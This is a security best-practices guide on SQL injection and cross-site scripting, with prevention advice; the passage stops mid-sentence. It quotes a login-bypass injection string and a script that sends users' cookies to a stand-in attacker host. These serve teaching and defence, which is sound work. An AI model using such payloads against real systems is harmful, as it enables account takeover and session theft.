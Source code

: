 # Security Best Practices

In today's interconnected world, security is paramount. Whether you're a developer, a system administrator, or simply a user of technology, understanding and implementing security best practices is crucial to protect your data, systems, and reputation. This guide provides a comprehensive overview of common security vulnerabilities and practical strategies to prevent them.  We'll explore real-world examples of exploits and discuss the importance of a proactive security mindset.

## Common Security Vulnerabilities

Understanding common vulnerabilities is the first step in building a secure environment. Here are some of the most prevalent:

*   **SQL Injection:** This vulnerability occurs when user-supplied data is inserted into a SQL query without proper sanitization. Attackers can then inject malicious SQL code, allowing them to bypass security measures, access sensitive data, or even execute arbitrary commands on the database server.

    *   *Example:* Imagine a website with a login form.  Instead of entering a username and password, an attacker enters `' OR '1'='1` in the username field and any password. If the application isn't properly sanitizing the input, this could result in the query `SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'any_password'`. The `1=1` condition will always be true, bypassing the authentication.

    *   *Prevention:* Use parameterized queries (also known as prepared statements) or Object-Relational Mappers (ORMs) that handle input sanitization automatically.  These techniques treat user input as data, not as executable code.

*   **Cross-Site Scripting (XSS):**  XSS vulnerabilities allow attackers to inject malicious scripts into websites viewed by other users. This can lead to session hijacking, redirection to malicious sites, or defacement of the website.

    *   *Example:* A forum allows users to post comments. An attacker posts a comment containing the following JavaScript code: `<script>window.location='http://evil.example.com/?cookie='+document.cookie;</script>`.  When other users view this comment, their browser executes the script, sending their cookies to the attacker's server.

    *   *Prevention:*  Sanitize user input and output, especially when displaying user-generated content. Use a Content Security Policy (CSP) to control the resources that the browser is allowed to load.  Encode special characters like `<`, `>`, and